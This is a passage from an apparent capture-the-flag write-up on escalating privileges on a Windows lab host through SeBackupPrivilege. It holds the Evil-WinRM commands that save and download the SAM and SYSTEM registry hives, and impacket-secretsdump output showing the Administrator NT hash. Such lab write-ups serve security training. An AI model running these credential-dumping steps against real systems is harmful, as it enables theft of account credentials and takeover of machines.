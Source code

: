 ```
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
On the privileges inforamtion section, we can see that it has some backup privileges.
We can exploit that.

**SeBackupPrivilege:** Is a windows permission given to a user. Said permission can copy **all** files and directories of the system, no matter what, that also includes registry. It also can access to other users info. And can perform backups of the Windows server. `robocopy` or `ntbackup` can be configured to run that privilege.

Because it can access all the files and the registry, we could get the following registry keys:
- **SAM**: It contains user's information, including password  hashes
- **SYSTEM**: It contains all type of configuration of the system data, for our purpose, we're going to read the hash encryption key configuration.

```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> reg save HKLM\SAM sam
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> reg save HKLM\SYSTEM system
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> download sam
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Desktop\sam to sam
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> download system
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Desktop\system to system
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop>
```

We also download it to our machine with the `download` command from evil-winrm

Now, that we have the SAM and SYSTEM files o
```
┌──(oriol㉿zero)-[~]
└─$ impacket-secretsdump -system system -sam sam LOCAL
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```
We have the admin password hash, which in the following line, is the last part:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
```
- **Administrator**: Name of the user
- **500**: rid (Resource ID)
- **aad3b435b51404eeaad3b435b51404ee**: lmhash
- **2b87e7c93a3e8a0ea4a581937016f341**: nthash
